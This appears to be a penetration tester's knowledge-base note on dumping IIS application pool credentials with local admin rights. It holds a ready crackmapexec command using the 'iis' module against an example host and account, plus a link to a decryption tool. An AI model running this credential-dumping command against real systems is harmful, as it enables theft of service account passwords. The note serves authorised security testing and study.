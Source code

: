 ```yaml
---
title: IIS AppPool Dump
---
```


[[notes/mitre-attack/credential-access|Access Credentials]] from the IIS service account as [[notes/windows/credential-access-admin|local admin]].

Retrieve plain passwords of IIS application pools ([source](https://twitter.com/mpgn_x64/status/1693249217609740470)).

=== "[[notes/tools/crackmapexec]]"
    ~~~ bash
    crackmapexec smb web01.corp.local -u jdoeadm -p 'passw0rd' -M iis
    ~~~

    If the module can not dump the password of an account it is probably a gMSA.

Untested tools:

- [AppPoolCredDecrypt](https://github.com/xpn/RandomTSScripts/tree/master/apppoolcreddecrypt)

